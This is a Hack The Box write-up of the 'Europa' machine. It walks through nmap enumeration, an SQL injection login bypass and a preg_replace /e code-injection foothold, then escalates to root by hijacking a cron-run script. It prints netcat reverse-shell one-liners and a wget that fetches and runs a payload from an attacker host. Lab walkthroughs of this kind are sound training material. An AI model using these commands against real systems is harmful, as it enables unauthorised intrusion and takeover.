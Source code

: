 ![logo](/logo.png)

# [Europa- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 23 Jun 2017 as the eight machine on HTB,Europa created by [ch4p](https://app.hackthebox.com/users/1) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/europa 10.10.10.22
```

###### Output 

![](/Linux/Linux-Medium/Europa/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/europa 10.10.10.22                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 08:01 EAT
Nmap scan report for 10.10.10.22
Host is up (0.32s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
| tls-alpn: 
|_  http/1.1
|_http-title: 400 Bad Request
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.05 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`.  and a bunch of hostnames

port[22]-ssh
port[80]-tcp
port[443]- https

when we naviagate to [http://10.10.10.22](http://10.10.10.22)  we find a page of  Apache

![](/Linux/Linux-Medium/Europa/Screenshots/apache.png)

so looking at the page i think its a misconfigaration of the apache so lets foward this to burpsuite so that we can see the request and also change the hostname to `europacorp.htb`, `www.europacorp.htb`, `admin-portal.europacorp.htb`  when looking at the sites we find the login form  [https://admin-portal.europacorp.htb](https://admin-portal.europacorp.htb)

![](/Linux/Linux-Medium/Europa/Screenshots/admin.png)

lest view the certificate to get other information 

![](/Linux/Linux-Medium/Europa/Screenshots/certificate.png)

we now now that the admin email address is `admin@europacorp.htb` lets open burp and see if we can find some SQl Injection

![](/Linux/Linux-Medium/Europa/Screenshots/burp.png)

upon trying the injection on the email adress and commenting out the password with a comment it lests us in.

![](/Linux/Linux-Medium/Europa/Screenshots/burpin.png)

![](/Linux/Linux-Medium/Europa/Screenshots/dashboard.png)


# Exploitation 

so in tools section we an openvpn generator

![](/Linux/Linux-Medium/Europa/Screenshots/openvpn.png)

so lets send this to burpsuite to analyze it further. Once on the tools page, it appears that it replaces all occurrences of ip_address with a user-specified string. By examining the POST data using Burpsuite, it appears that the regex can be set client-side.

![](/Linux/Linux-Medium/Europa/Screenshots/burpsuite.png)

![](/Linux/Linux-Medium/Europa/Screenshots/burppoc.png)

It can be assumed that the pattern variable is used in preg_replace in the code, which can be
easily exploited. Refer to the linked article [Exploit ](https://www.madirish.net/402) for more information on how this exploit works.

by adding the `/e` modifier and getting the system to do a `whoami` i can see that i can interact with the machine.

![](/Linux/Linux-Medium/Europa/Screenshots/www.png)


so we are going to save this exploit as `shell.php`  then we get it with wget  then run bash against the file but we save it on `tmp`


```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 1337 >/tmp/f
```


```sh
system('wget http://10.10.14.15:8000/shell.php -P /tmp;')
```


```sh
system('bash -f /tmp/shell.php';')
```

![](/Linux/Linux-Medium/Europa/Screenshots/payload.png)


and after running that we get shell

![](Linux/Linux-Medium/Europa/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

![](/Linux/Linux-Medium/Europa/Screenshots/stty.png)

you can get the `user flag`  at 

![](/Linux/Linux-Medium/Europa/Screenshots/useeflag.png)

so lets get `LinEnum` so that we can identify potentila `privsec`  

![](/Linux/Linux-Medium/Europa/Screenshots/LinEnum.png)

it appears that `/var/www/cronjobs/clearlogs` is run every minute

![](/Linux/Linux-Medium/Europa/Screenshots/cronjobs.png)

Examining the clearlogs file shows that `/var/www/cmd/logcleared.sh` is executed by this PHP
script. The `logcleared.sh` file does not exist however, and the directory is writable by `www-data`.

![](/Linux/Linux-Medium/Europa/Screenshots/logsh.png)

so lets creat a revershell used earlier but change the listerner then creat a `logclearned.sh`  to the specified path then we `chmod +x` to make it executable.

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9002 >/tmp/f
```

![](/Linux/Linux-Medium/Europa/Screenshots/privsec.png)

and like that we get root 

![](/Linux/Linux-Medium/Europa/Screenshots/root.png)

and we can get the root flag at 

![](/Linux/Linux-Medium/Europa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley------------



